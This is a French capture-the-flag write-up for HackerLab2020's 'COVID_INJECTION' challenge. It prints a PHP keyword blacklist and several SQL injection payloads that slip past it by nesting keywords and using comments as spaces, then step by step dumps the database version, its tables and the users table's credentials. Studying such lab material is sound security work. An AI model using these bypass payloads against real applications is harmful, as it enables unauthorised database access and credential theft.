








# HackerLab2020 - Challenge 1

## Challenge
>COVID_INJECTION
Les listes noires, c'est pas la meilleure option contre les "covid_injection".
L'ANSSI l'a toujours répété aux développeurs. Blacklister les simples et doubles apostrophes ne >protège pas contre le "covid_injection".
Montre à ces développeurs qu'ils ont tort de ne pas suivre les directives.

## Solution
Primo, nous avons pris connaissance du code source de l'application mis à notre disposition
```php
<?php
if (isset($_GET['source'])) {
    die(highlight_file(__FILE__));
}

require("conf/vuln.conf.php");
error_reporting(0);

if (isset($_GET['q'])) {
    $covid_vaccine = array('union', 'select', 'or', 'from', 'where');
    foreach ($covid_vaccine as $banned) {
        $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
    }
    if (strpos($_GET['q'], " ") !== false) die("covid_injection détecté");
}

?>
```
Nous remarquons que pour réussir ce challenge, nous devons faire de telle sorte que les mots clés *union*, *select*, *or*, *from*, *where* et  l'espace _" "_ échapperont au control des fonctions *preg_replace* et *strpos*

Ainsi, nous avons effectué plusieurs requêtes SQL avant d'atteindre le but.

Premier payload: ```'OORROR(1=1)OORROR'a'='```

Rendu:



Le rendu ne nous révèle aucun flag. On a agit donc autrement à travers les étapes ci-après:

* **Identification des colonnes vulnérables**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,3,4/**/#```

Rendu:



On peut donc retenir que les colonnes 2, 3 et 4 sont vulnérables.

* **Identification de la version de SQL**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),444/**/#```

Rendu:



La version du SQL est donc _8.0.1-dmr_

* **Identification du nom de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,222,version(),database()/**/#```

Rendu:



Nom de la base de données: covid_injection

* **Identification les tables de la base de données**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(table_name),4/**/frfromom/**/infoorrmation_schema.tables/**/whwhereere/**/table_schema=database()/**/#```

Rendu:



Nous découvrons par là une autre nouvelle table dont on n\'avait pas connaissance qu'est _users_

* **Identification des colonnes de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(column_name),4/**/frfromom/**/infoorrmation_schema.columns/**/whwhereere/**/table_schema=database()/**/and/**/table_name='users'/**/#```

Rendu:



Nous pouvons remarquer qu'en dehors des colonnes de la table _hack_hackerlab_ , nous avons d'autres colonnes qui sont pour la table users.

* **Affichage du contenu de la table _users_**

Payload: ```inspiv'/**/ununionion/**/all/**/seselectlect/**/1,2,group_concat(id89l,passwoorrd,username),4/**/frfromom/**/users/**/#```

Rendu:



Nous obtenons ainsi le flag

```FLAG: CTF_Y0uAreAwas0m3_b__t___es```

Cependant nous avons le début d'une clé publique. L'intégralité de la clé ne s'est pas affichéé à cause de la limite de la fonction _group_concat_. Alors nous sommes obligés de modifier notre requête.

Nouveau Payload: ```inspiv'/**/uniunionon/**/all/**/seleselectct/**/1,passwoORrd,222,username/**/frfromom/**/users/**/#```

Rendu:


